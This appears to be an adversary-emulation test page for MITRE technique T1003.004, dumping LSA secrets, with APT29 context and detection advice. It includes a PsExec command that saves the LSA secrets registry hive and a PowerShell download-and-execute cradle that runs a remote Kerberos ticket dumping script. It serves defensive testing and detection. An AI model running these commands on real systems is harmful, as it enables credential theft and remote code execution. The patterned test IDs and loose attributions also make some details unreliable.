



# T1003.004 - OS Credential Dumping: LSA Secrets

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004/)
<blockquote>
Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority (LSA). The Windows LSA is a protected subsystem that authenticates and logs users onto the local system. The LSA includes information about credential material for users, service accounts, and computer accounts.

Adversaries with SYSTEM access to a host may attempt to access LSA secrets to retrieve credential material. These secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code> and may contain credentials such as:
* Service account passwords
* Cached domain credentials  
* AD computer account passwords
* API keys and other authentication tokens

Tools such as Mimikatz and secretsdump.py can be used to extract these secrets from memory or the registry.(Citation: Microsoft LSA Secrets)
</blockquote>

### Attack Technique Overview
OS Credential Dumping from LSA Secrets involves adversaries extracting cached credentials and authentication materials from the Local Security Authority subsystem. APT29 (Russian state-sponsored) extensively uses this technique to obtain service account passwords, cached domain credentials, and other sensitive authentication data for lateral movement and persistence.



## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)
- [Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1](#atomic-test-2---dump-kerberos-tickets-from-lsa-using-dumperps1)

<br/>

## Atomic Test #1 - Dumping LSA Secrets
Uses PsExec with reg save to extract LSA secrets hive. APT29 has used this technique during operations like SolarWinds for credential extraction.

**Supported Platforms:** Windows

**auto_generated_guid:** 1d2c3b4a-5e6f-7a8b-9c0d-1e2f3a4b5c6d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_path | Path to PsExec utility | path | C:\Tools\PsExec.exe |
| output_file | Output file for secrets hive | path | %TEMP%\secrets |

#### Attack Commands: Run with `command_prompt`! 
```cmd
#{psexec_path} -accepteula -s reg save HKLM\SECURITY\Policy\Secrets #{output_file} /y
```



**Command Explanation:**
```cmd
PsExec.exe -accepteula -s reg save HKLM\SECURITY\Policy\Secrets %TEMP%\secrets /y
```
- **PsExec.exe**: Sysinternals tool for remote execution (abused for local SYSTEM access)
- **-accepteula**: Automatically accepts the EULA
- **-s**: Runs the command with SYSTEM privileges
- **reg save**: Extracts registry hive to a file
- **HKLM\SECURITY\Policy\Secrets**: Location of LSA secrets in registry
- **%TEMP%\secrets**: Output file in temporary directory
- **/y**: Forces overwrite without confirmation

APT29 used this methodology during SolarWinds to extract LSA secrets containing service account credentials for lateral movement.

#### Dependencies: Run with `powershell`!
##### Description: PsExec must be available and require administrative privileges
##### Check Prereq Commands:
```powershell
# Check PsExec availability
if (-not (Test-Path "#{psexec_path}")) { exit 1 }

# Check administrative privileges
$currentPrincipal = New-Object Security.Principal.WindowsPrincipal([Security.Principal.WindowsIdentity]::GetCurrent())
if (-not $currentPrincipal.IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) { exit 1 }

exit 0
```

<br/>

## Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1
Uses PowerShell to download and execute Kerberos ticket dumping script. APT29 employs PowerShell-based tools for in-memory credential extraction.

**Supported Platforms:** Windows

**auto_generated_guid:** 2e3d4c5b-6a7b-8c9d-0e1f-2a3b4c5d6e7f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_url | URL to dumper.ps1 script | url | https://raw.githubusercontent.com/MzHmO/PowershellKerberos/beed52acda37fc531ef0cb4df3fc2eb63a74bbb8/dumper.ps1 |

#### Attack Commands: Run with `powershell`! 
```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('#{script_url}')
```



**Command Explanation:**
```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/beed52acda37fc531ef0cb4df3fc2eb63a74bbb8/dumper.ps1')
```
- **Invoke-Expression (IEX)**: Executes PowerShell code
- **New-Object Net.WebClient**: Creates web client object for downloads
- **DownloadString()**: Downloads content as a string (script text)
- **Script URL**: Location of the Kerberos dumping PowerShell script

APT29 uses this technique to extract Kerberos tickets from LSA memory for golden/silver ticket attacks, avoiding traditional credential dumping detection.

#### Dependencies: Run with `powershell`!
##### Description: Requires PowerShell and internet access
##### Check Prereq Commands:
```powershell
# Check internet connectivity
if (-not (Test-Connection -ComputerName 8.8.8.8 -Count 1 -Quiet)) { exit 1 }
exit 0
```

## Defender Recommendations

Based on these tests, defenders should:

1. **Monitor for PsExec usage** with SYSTEM privileges for registry operations
2. **Detect reg save operations** targeting HKLM\SECURITY\Policy\Secrets
3. **Monitor PowerShell activity** for download cradles and script execution
4. **Implement application control** to restrict unnecessary utilities like PsExec
5. **Use behavioral detection** for processes accessing LSA memory or registry locations
6. **Monitor for unusual file creation** - secrets files in temp directories

## Correlation with APT29

**APT29 Focus:**
- Living-off-the-land techniques (PsExec, reg.exe, PowerShell)
- Multiple methods for credential extraction (registry and memory)
- LSA secrets dumping for service account and cached credentials
- Used for lateral movement and persistence in operations like SolarWinds

**Tactical Objectives:**
- Credential Access: Extract service account passwords and cached credentials
- Lateral Movement: Enable pass-the-hash and Kerberos attacks
- Persistence: Maintain access through stolen authentication materials
- Privilege Escalation: Gain domain-level access through credential theft

## Campaign References
1. **APT29 SolarWinds Campaign** (2020): Used LSA secrets dumping to extract service account credentials for lateral movement
2. **APT29 COVID-19 Vaccine Targeting** (2020): Employed credential dumping techniques to gain persistent access to research networks
3. **Various APT29 Operations**: Consistently demonstrated advanced LSA secrets access capabilities

## Academic References
1. MITRE ATT&CK Technique T1003.004 - OS Credential Dumping: LSA Secrets
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Russian SVR Activities" (APT29 TTPs)
4. FireEye: "APT29 Domain Fronting With TOR" (2017)
5. CrowdStrike: "APT29 Targets COVID-19 Vaccine Development" (2020)

## Detection Recommendations

* **SIEM Rules**: Alert on reg.exe saving HKLM\SECURITY\Policy\Secrets
* **EDR Monitoring**: Track PsExec spawning reg.exe with save operations
* **PowerShell Monitoring**: Detect download cradles and IEX usage
* **Network Monitoring**: Identify PowerShell downloading scripts from external sources
* **Behavioral Analysis**: Detect unusual SYSTEM account activities involving registry operations
* **File Monitoring**: Watch for secret files in temp directories
* **Memory Protection**: Use Credential Guard to protect LSA secrets